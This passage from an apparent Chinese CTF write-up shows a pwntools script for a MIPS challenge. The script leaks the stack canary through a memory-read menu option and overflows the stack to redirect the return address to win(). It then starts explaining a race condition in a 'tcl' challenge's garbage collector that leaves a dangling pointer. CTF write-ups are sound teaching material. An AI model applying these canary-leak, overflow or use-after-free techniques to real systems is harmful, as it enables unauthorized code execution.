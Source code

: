 ```python
            "./ctf:/target/ctf",
            f"legoclones/mips-pwn:{build}",
            "chroot",
            "/target",
            "/qemu",
            "/ctf/mips",
        ]
    )


### GET CANARY ###
canary_got_addr = 0x420060

p.recvuntil(b"> ")
p.sendline(b"1")
p.sendline(hex(canary_got_addr).encode())

canary_addr = int(p.recvline().strip().split(b" ")[-1], 16)
print(f"Canary GOT: {hex(canary_got_addr)}")

p.recvuntil(b"> ")
p.sendline(b"1")
p.sendline(hex(canary_addr).encode())
canary = int(p.recvline().strip().split(b" ")[-1], 16)
print(f"Canary: {hex(canary)}")


### EXPLOIT OVERFLOW ###
p.recvuntil(b"> ")
p.sendline(b"2")

payload = flat(
    b"A" * 0x10,  # padding
    p32(canary),  # canary
    p32(0),  # s8
    p32(0x400964),  # ra (win())
)
p.sendline(payload)


p.interactive()

```

## tcl

race 题，这题符号基本都留着了，汇编还是挺好看的。

首先它开了一个 5s 一运行的垃圾回收线程，它查找所有 refcnt == 0 的 obj，放入一个局部数组中，然后首先 free 掉它们（每个间隔 0x1388 us），free 完再去遍历一遍数组，确认 refcnt == 0 才 set null。这里显然有一个攻击窗口，当我们待回收的数组较大，那么第一个 free 和 setnull 之间就会有 0x1388 \* len us 的窗口可供利用。如果我们能够趁这个时候把其中一个已经 free 但是还没改为 null 的 refcnt 增加，它就不会被 set null，从而留存一个 dangling pointer。
